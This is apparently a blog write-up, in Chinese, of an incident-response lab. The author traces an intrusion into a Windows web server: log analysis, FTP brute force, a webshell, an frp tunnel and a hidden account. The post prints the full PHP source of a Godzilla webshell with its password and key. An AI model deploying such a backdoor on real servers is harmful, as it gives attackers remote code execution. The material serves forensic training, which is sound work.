# 应急响应靶机--Web2


# 应急响应靶机--Web2

题目描述：

> 前景需要：小李在某单位驻场值守，深夜12点，甲方已经回家了，小李刚偷偷摸鱼后，发现安全设备有告警，于是立刻停掉了机器开始排查。
>
> 这是他的服务器系统，请你找出以下内容，并作为通关条件：
>
> 1.攻击者的IP地址（两个）？
>
> 2.攻击者的webshell文件名？
>
> 3.攻击者的webshell密码？
>
> 4.攻击者的伪QQ号？
>
> 5.攻击者的伪服务器IP地址？
>
> 6.攻击者的服务器端口？
>
> 7.攻击者是如何入侵的（选择题）？
>
> 8.攻击者的隐藏用户名？

**相关账户密码**

用户:administrator

密码:Zgsf@qq.com

## 1.攻击者的IP地址（两个）？

找到 Apache 日志目录 C:\phpstudy_pro\Extensions\Apache2.4.39\logs，发现可疑 ip 192.168.126.135，感觉是在进行目录扫描



然后使用 [mir1ce/Hawkeye: Windows应急响应工具---Hawkeye(鹰眼)。集Windows日志分析，进程扫描，主机信息于一体的综合应急响应分析工具](https://github.com/mir1ce/Hawkeye)，分析一下，发现一个登录成功的 ip 192.168.126.129



flag：

> 192.168.126.135
>
> 192.168.126.129

## 2.攻击者的webshell文件名？

使用 D 盾扫到一个木马



flag：system.php

## 3.攻击者的webshell密码？

可以发现这个木马就是哥斯拉生成的 webshell 文件，密码就是 hack6618

```python
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='hack6618';
$payloadName='payload';
$key='7813d1590d28a7dd';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}

```

flag：hack6618

## 4.攻击者的伪QQ号？

QQ 登录后会在本地留下用户数据文件夹，`Tencent Files` 目录下每个登录过的 QQ 号都会生成一个以 QQ 号命名的文件夹

```python
# QQ 默认数据目录（以 QQ 号命名文件夹）
Get-ChildItem -Path "C:\Users\*\Documents\Tencent Files" -ErrorAction SilentlyContinue
```

发现存在 C:\Users\Administrator\Documents\Tencent Files 目录，qq 号就是 777888999321



flag：777888999321

## 5.攻击者的伪服务器IP地址？

可以发现有个 frp



打开配置文件，server_addr = 256.256.66.88，服务器地址就是 256.256.66.88



flag：256.256.66.88

## 6.攻击者的服务器端口？

server_port = 65536

攻击者的服务器端口就是 65536

flag：65536

## 7.攻击者是如何入侵的（选择题）？

> 请回答攻击者是如何入侵的?  
>      1.web攻击  
>      2.数据库攻击  
>      3.ftp攻击  
>      4.rdp攻击  
> 请输入攻击者是如何入侵的（只回答数字即可）: 3

思路：

可以发现在 web 日志中第一次出现木马 system.php 就是直接访问的，没有发现是上传还是怎么产生的



然后发现小皮存在 ftp 服务。然后看一下 ftp 的日志，C:\phpstudy_pro\Extensions\FTP0.9.60\Logs



可以发现前面好像都在爆破密码，然后登入成功，上传了一个木马文件 system.php



然后通过  system.php 创建了一个隐藏用户 hack887$，最后通过  rdp 登入成功



## 8.攻击者的隐藏用户名？



flag：hack887$




---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94%E9%9D%B6%E6%9C%BA-web2/  

